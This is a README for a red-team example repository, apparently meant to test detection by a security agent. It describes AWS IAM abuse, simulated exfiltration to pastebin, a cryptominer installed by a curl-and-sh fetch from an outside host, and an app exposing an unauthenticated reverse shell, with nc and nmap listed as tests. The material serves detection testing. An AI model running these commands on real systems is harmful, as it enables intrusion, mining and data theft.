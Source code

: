 # Red Team Examples
Red team examples and sample code.  
  
### About Red Teaming
The purpose of red team testing is to validate the state of an environment by simulating an attack. Red team tests are performed by a group of security professionals.  
  
Red teams are responsible for testing the organization's detection and response capabilities by attempting to gain access to systems or data covertly.   
  - The team will carry out different attacks, with the flexibility to use different techniques (phishing/spearphishing, exploiting vulnerabilities in software, social engineering, etc.).   
  - The end goal of the red team is to get as much access/data as possible without being detected.   
  - At the end of the engagement, the red team delivers a report of actions taken by their team.  
  - The red team and blue team (which is the internal security team that is responsible for defending against the red team/attackers) compare notes on what was/wasn’t detected, allowing the security team to understand and correct gaps in coverage/detections.  
    
These examples are simple to run but display behaviours that will test the validity of security systems.   
  
### 1. AWS Account Exploit  
  
This script performs AWS CLI commands to simulate offensive security actions:   
  - lists EC2 instances, security groups, secrets for each region. 
  - creates a new AWS IAM user eg. 'baduser' with power user privileges.    
  - using 'baduser', creates an S3 bucket, and puts a file into it.  
  - cleans up: deletes the bucket, deletes 'baduser'.
  - accepts an optional argument for the username that gets created, otherwise defaults to `baduser`. 
  
##### Prerequisites
  - AWS CLI with profile set. 

##### Usage
Arguments: newusername awsprofile region. 
  
```bash 
cd aws_account_exploit
sh ./aws-lateral-movement.sh baduser default eu-west-2
```
  
### 2. Exfiltration Simulation
  
This example pulls data down some random endpoints and then attempts to post it to pastebin. The script does not do anything inherently malicious but is the type of activity indicating data exfiltration.  
  
##### Prerequisites
  - AWS EC2 Linux with Lacework Agent
  - Golang 
  
##### Usage
```bash
apt install golang
  
  
cd GoExfil
go build
go run BasicExfil.go
```
  
### 3. Cryptominer
  
This example installs and runs XMRig, which is a cryptominer. The installation is not malware and does not propagate. 
  
The Crypto Mining script should be run on a standalone EC2 Instance or Kubernetes deployment with Lacework installed. The exploit will only execute in interactive mode, so once the script is terminated, the exploit will be terminated. It’s recommended to run for at least 1 hour to ensure all steps in the exploit are executed.  
  
##### Prerequisites
  - AWS EC2 Linux with Lacework Agent.  
  - (alternative) AWS K8s Cluster with Lacework Agent.  
  
##### Linux VM Deployment
```bash
curl http://lwmalwaredemo.com/install-demo-1.sh -o install-demo-1.sh; sh install-demo-1.sh;
```
  
##### Kubernetes Deployment
Deploys a crypto miner malware example for testing the Lacework agent. 
  
Run the following command to deploy the example.  
```bash
kubectl apply -f https://raw.githubusercontent.com/lacework-dev/scripts/main/k8s-crypto-miner.yaml
```
  
Run the following command to delete the example.  

```bash
kubectl delete -f https://raw.githubusercontent.com/lacework-dev/scripts/main/k8s-crypto-miner.yaml
```
Here is the script:  
https://github.com/lacework-dev/scripts/blob/main/k8s-crypto-miner.yaml
  
### 4. Lacework Traffic Generator & Reverse Shell
This project is a browser based web app designed to allow a user to evaluate Lacework anomaly detection. The nodejs app, when run, generates a baseline amount of activity for Lacework to detect. It also includes a reverse shell feature to allow the tester to trigger anomalous and known-bad alerts commonly seen in real-world breaches.

```
NOTE: This project does allow unauthenticated access to a shell on the host / network it is running on. It also serves html direct from the filesystem with a very barebones nodejs based http server. It is highly recommended to only allow access to it from controlled IP ranges. Use at your own risk, no warranties or liability is assumed
```
##### Baselining
When run as a container, the app will make outbound connections to two public facing anonymous APIs (the baseline activity). These APIs are:  
  - The Hacker News "new stories" feed
  - The Cat Facts "random cat fact" API
  
##### Reverse Shell
After 3 hours of running / baselining, a reverse shell is enabled, which allows the tester to run any shell command as the user who owns the parent process. Examples of the types of tests one can run are:  
  - curl a known bad host such as https://donate.v2.xmrig.com  
  - nmap the local subnet   
  - Downloading and running crypto miners.  
  - Opening a true reverse shell with nc. 

##### How to Run on an EC2
  - Install npm and nodejs with apt-get or yum
```bash
## Clone the repo
git clone https://github.com/lacework-community/reverse-shell-simulation-app.git reverse-shell-simulation-app

cd reverse-shell-simulation-app/app
node server.js &
disown
```
At this point you can access the app from http://<public_ip>:8080/ntg-frontend.html  
  
##### Source
https://github.com/lacework-community/reverse-shell-simulation-app
  
  
  
